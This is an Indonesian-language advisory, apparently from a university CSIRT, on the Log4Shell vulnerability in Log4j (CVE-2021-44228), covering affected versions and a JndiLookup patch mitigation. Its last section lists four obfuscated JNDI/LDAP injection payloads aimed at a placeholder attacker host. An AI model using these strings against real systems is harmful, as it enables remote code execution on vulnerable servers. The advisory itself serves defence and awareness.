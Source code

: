 ![thumbBanner](https://github.com/CSIRT-UMM/cysec-article/blob/main/28012022%20-%20Log4J/log4jThumb.png)
# Kerentanan <i>Zero-Day</i> Apache Java Logging Library LOG4J (CVE-2021-44228)

Log4J, mengalami kerentanan Log4Shell yang sedang memengaruhi banyak komputer. Perangkat lunak ini dibuat untuk merekam segala macam kegiatan yang berlangsung di berbagai sistem komputer, dengan memanfaatkan Java.
Log4Shell bekerja dengan cara menyalahgunakan fitur di Log4j yang memungkinkan pengguna untuk memasukkan kode khusus untuk memformat pesan log. Fitur ini memungkinkan Log4j untuk data-data server.
<br>Versi dari Log4j yang terdampak oleh kerentanan ini adalah komputer yang menjalankan Log4j versi >=2.0 dan <=2.14.1.

---
## Cara Memitigasi Kerentanan
Ganti kelas `org.apache.logging.log4j.core.lookup.JndiLookup` ke versi yang telah diperbaiki, sehingga classloader dapat menggunakan kelas pengganti ketimbang versi kelas yang rentan, atau dengan mengunduh patch JndiLookup dan menambalnya melalui java agent.

---

## Berikut adalah contoh-contoh exploit yang biasa digunakan untuk melakukan serangan
`${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//somesitehackerofhell.com/z}`<br>
`${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://somesitehackerofhell.com/z}`<br>
`${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://somesitehackerofhell.com/z}`<br>
`${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://somesitehackerofhell.com/z}`<br>
dsb.

